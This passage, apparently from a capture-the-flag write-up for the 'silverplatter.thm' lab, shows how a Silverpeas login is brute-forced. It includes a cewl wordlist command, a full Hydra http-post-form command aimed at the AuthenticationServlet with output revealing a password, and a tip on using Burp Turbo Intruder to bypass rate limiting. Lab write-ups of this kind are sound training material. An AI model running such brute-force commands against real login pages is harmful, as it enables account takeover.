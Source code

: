 ```bash
cewl -w custom_passwords.txt silverplatter.thm
```

### Hydra

- `http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp` could not be cracked with Hydra at the initial effort. 
	- `defaultLogin.jsp` is not the actual login handler — it’s the front-end form, a JSP page rendered to the user. When you submit the form from that page:
		- It does not process authentication itself.
		- Instead, it sends a POST request to a backend servlet (in this case, `AuthenticationServlet`) with `DomainId`, `Login`, and `Password` parameters.

Hydra only works when you point it at the **actual backend POST endpoint** where the credentials are validated.

```bash
hydra -l scr1ptkiddy -P custome_passwords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect" -V -t 2 -I

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-08 09:55:21
[DATA] max 2 tasks per 1 server, overall 2 tasks, 344 login tries (l:1/p:344), ~172 tries per task
[DATA] attacking http-post-form://silverplatter.thm:8080/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "the" - 1 of 344 [child 0] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "Item" - 2 of 344 [child 1] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "and" - 3 of 344 [child 1] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "Hack" - 4 of 344 [child 0] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "Smarter" - 5 of 344 [child 1] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "Security" - 6 of 344 [child 0] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "this" - 7 of 344 [child 0] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "adipiscing" - 8 of 344 [child 1] (0/0)
[ATTEMPT] target silverplatter.thm - login "scr1ptkiddy" - pass "Default" - 9 of 344 [child 0] (0/0)
[8080][http-post-form] host: silverplatter.thm   login: scr1ptkiddy   password: adipiscing
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-08 09:55:27

```
- Password: adipiscing

### Burp Suite

Capturing a login request and sending it to Burp's Repeater tool can be used with the extension "Turbo Intruder" to bypass rate limiting on the community addition. FUZZ the desired parameter with the `%s` characters. Switch payload to basic.py and modify password list payload path.
